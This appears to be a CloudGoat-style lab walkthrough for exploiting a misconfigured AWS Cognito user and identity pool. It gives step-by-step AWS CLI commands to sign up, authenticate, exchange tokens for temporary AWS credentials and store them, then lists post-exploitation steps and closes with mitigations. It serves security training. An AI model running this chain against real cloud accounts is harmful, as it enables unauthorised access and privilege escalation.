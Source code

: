 
# 🛠️ CloudGoat-style Walkthrough: Exploiting Misconfigured Cognito

## ⚡ TL;DR

In this attack, we exploit an AWS Cognito misconfiguration by authenticating against a vulnerable user pool and retrieving temporary AWS credentials through the identity pool. This allows lateral movement or privilege escalation depending on the IAM roles linked.

---

## 📌 Target

- **Cognito Identity Pool ID**: `us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8`
- **Cognito App Client ID** (assumed): `<APP_CLIENT_ID_HERE>`
- **Region**: `us-east-1`

---

## 🧭 Step-by-Step Exploitation

### 🔍 Step 1: Identify Misconfigured Cognito Pool

The vulnerable application exposed:
- A public-facing **User Pool**
- An **App Client** with no secret (usable in the frontend)
- An **Identity Pool** trusting tokens from the User Pool

If signup is enabled, you can register a new user:
```bash
aws cognito-idp sign-up   --client-id <APP_CLIENT_ID>   --username attacker@example.com   --password 'Password123!'   --region us-east-1
```

Then confirm manually (or via an exposed admin flow).

---

### 🔐 Step 2: Authenticate to Get a Token

Use the username/password to authenticate and receive the `IdToken`:

```bash
aws cognito-idp initiate-auth   --auth-flow USER_PASSWORD_AUTH   --client-id <APP_CLIENT_ID>   --auth-parameters USERNAME=attacker@example.com,PASSWORD='Password123!'   --region us-east-1
```

**Output**:
```json
{
  "AuthenticationResult": {
    "IdToken": "eyJraWQiOiJLTUt...", 
    "AccessToken": "...",
    "ExpiresIn": 3600,
    "TokenType": "Bearer"
  }
}
```

---

### 🎟️ Step 3: Exchange IdToken for AWS Credentials

Pass the `IdToken` to Cognito Identity to get AWS credentials:

```bash
aws cognito-identity get-id   --identity-pool-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8   --logins "cognito-idp.us-east-1.amazonaws.com/<USER_POOL_ID>"="eyJraWQiOi..."   --region us-east-1
```

This returns the **Cognito Identity ID**:
```json
{
  "IdentityId": "us-east-1:abcd1234-5678-90ef-ghij-klmnopqrstuv"
}
```

---

### 🔑 Step 4: Get Temporary AWS Credentials

Use the identity ID and token to request AWS credentials:

```bash
aws cognito-identity get-credentials-for-identity   --identity-id us-east-1:abcd1234-5678-90ef-ghij-klmnopqrstuv   --logins "cognito-idp.us-east-1.amazonaws.com/<USER_POOL_ID>"="eyJraWQiOi..."   --region us-east-1
```

**Output**:
```json
{
  "Credentials": {
    "AccessKeyId": "ASIA...",
    "SecretKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCY...",
    "SessionToken": "IQoJb3JpZ2luX2VjE...",
    "Expiration": "2025-06-05T15:30:00Z"
  }
}
```

---

## 🔧 Step 5: Set AWS CLI Profile (Optional)

To use these creds with AWS CLI:

Edit `~/.aws/credentials`:
```ini
[exploit]
aws_access_key_id = ASIA...
aws_secret_access_key = wJalrXUtnFEMI/K7MDENG/...
aws_session_token = IQoJb3JpZ2luX2VjE...
```

Then test:
```bash
aws sts get-caller-identity --profile exploit
```

---

## 🚀 Post-Exploitation

Once you have temporary credentials:
- Enumerate S3, IAM, and EC2 access
- Attempt privilege escalation (e.g., via IAM policy abuse)
- Check for excessive trust on the identity pool

---

## 🧪 Detection & Mitigation

### ✅ Fixes:
- Disable open signup or require email verification
- Remove trust relationships between Identity Pool and public User Pool
- Use App Clients with client secret
- Implement fine-grained IAM role mappings
